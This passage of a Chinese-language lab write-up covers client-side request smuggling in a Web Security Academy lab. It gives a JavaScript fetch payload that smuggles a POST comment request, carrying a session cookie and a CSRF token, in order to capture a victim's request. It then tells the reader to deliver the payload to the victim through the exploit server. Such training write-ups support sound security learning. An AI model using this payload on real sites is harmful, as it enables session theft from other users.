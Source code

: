 [![](assets/1705301772-c8bee9c6b69fe090722613f0b484ddf2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183528-a2c2aa70-b2c8-1.png)  
刷新博客文章并确认通过浏览器发起的攻击成功输出您自己/capture  
[![](assets/1705301772-0bb62cb361cab69c50a6b9311e0b65a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183542-aaca754a-b2c8-1.png)  
更改Content-Length捕获更多

```plain
fetch('https://0a40005204ca7973811de89500e000af.h1-web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net\r\nCookie: session=IVyZ195O8xf57pxHj67NWTnINcMnLhx5; _lab_analytics=Ep2xqyavvsZdf4X8ozQb4i0y0HvPKRxQeJN9sIHk91JVUMoZBydIofsyqWL72BINYScmFaJnfLP1NaLgczuV1Deg5ighDljgshun8uVDCmNVXEWaYtSALPEfDLHnSesd2Q0yEYPBtj5SAEVXEXeF8s832NQFFArwAhwlwU8ETbp7luLXJe66IKsp9aBd69gsqtnMsIXGhOoZkqkJ9DZqebES82Vk2xetArPJLiZbS6j9TnBLgH5D6as1sTVQFQi0\r\nContent-Length: 300\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=oeSUFWMfMoMJbOyXez7fU3KDpGKjbYdU&postId=2&name=QWQQ&email=test123@163.com&website=http://www.baidu.com&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://0a40005204ca7973811de89500e000af.h1-web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

[![](assets/1705301772-5fc6d24e7c7ac65a2ba47c78a73365df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183601-b64f4f44-b2c8-1.png)  
随后转到漏洞利用服务器，在"正文"面板中粘贴之前的测试的脚本，随后将整个脚本包装在HTML的＜script＞标记中，存储该漏洞并单击"传递给受害者"  